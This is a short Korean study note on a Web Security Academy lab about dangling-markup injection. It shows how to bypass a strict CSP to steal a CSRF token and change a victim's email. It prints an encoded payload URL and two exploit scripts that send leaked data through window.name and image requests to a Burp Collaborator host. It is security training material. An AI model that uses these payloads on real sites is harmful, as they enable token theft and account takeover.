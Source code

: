 <img src='./images/theory/xss-7.png' width='800'> 

요청 URL을 디코딩하면 위와같이 csrf를 가져오면 email을 바꾸기 위한 모든 준비가 끝나게 된다. 

여기서 하나 짚고 넘어갈것이.. 

`https://ac391f551ec45b18804726a60018002b.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27fxg2lx5ogejybh6n571ttgwk6bc20r.burpcollaborator.net`

 이런식으로 생겨먹은 URL은 누가봐도 수상하다. 
그래서 내 사이트에 script로 저 URL을 넣고, 
그 스크립트를 넣은 내 사이트 주소를 유저에게 뿌린다. 

```html
<script>
location='Host/email?email="><table background='//collaborator-URL' 
</script> 
```

 위에 코드는 그냥 바로 요청이 보내지도록 한 경우이다. 하지만 CSP가 strict하면 그게 안된다. 
그래서 a태그에 내 사이트 주소를 넣어서 클릭을 유도. 
내사이트로 요청이 오는 요소를 만들어내는 방식으로 CSP를 우회한다. 

```html
<script> 
if(window.name) 
{ 
	new Image().src='//collaborator-URL?'+encodeURIComponent(window.name); 
} 
else
{ 
	location = 'Host/email?email="><a href="https://your-exploit-server-id.web-security-		academy.net/exploit">Click me</a><base target=''; 
} 
</script> 
```
